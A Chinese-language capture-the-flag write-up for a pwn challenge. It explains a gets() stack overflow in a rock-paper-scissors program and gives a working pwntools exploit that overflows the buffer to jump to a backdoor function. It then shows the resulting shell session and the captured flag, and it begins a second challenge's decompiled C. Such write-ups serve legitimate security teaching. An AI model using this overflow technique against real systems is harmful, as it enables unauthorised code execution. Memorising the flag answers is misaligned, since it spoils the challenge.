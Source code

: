 ### 思路

显然含有 `gets()` 危险函数，触发条件是 `v10 > 5`，即得分为 `6`．

~~注意到~~存在后门函数 `final()`，并且 checksec 发现没开 PIE，地址就是`0x4012E3`

~~注意到~~程序输出含有像 `当前得分：1` 这样的格式，于是我们直接不断发送比如 `石头`，直到接受到 `当前得分：6` 退出循环，发送 payload，实现栈溢出，劫持执行流．

### exp

```python
from pwn import *
io = remote("43.248.97.213", 30666)
# io = process('./rock_paper_scissors')

io.recv()
for _ in range(30):       # 运气应该不会这么背吧...
    io.sendline('石头')
    if b'6' in io.recv():
        break

payload = b'a' * 0x30 + b'b' * 0x8 + p64(0x4012E3) # v5: rbp-30h，rbp占8字节，final()地址
io.sendline(payload)
io.interactive()
```

### getshell

```shell
[*] Switching to interactive mode
$ ls
bin
dev
flag
lib
lib32
lib64
libx32
rock_paper_scissors
usr
$ cat flag
XSCTF{1bab71b8-117f-4dea-a047-340b72101d7b}```
```

### 答案

`XSCTF{1bab71b8-117f-4dea-a047-340b72101d7b}`

## c_master 题解

### IDA反汇编结果

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-1Ch]
  void *s; // [rsp+8h] [rbp-18h]
  char v6[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v7; // [rsp+18h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v4 = 0;                                       // base = 0
  s = malloc(0x400uLL);
  memset(s, 0, 0x400uLL);
```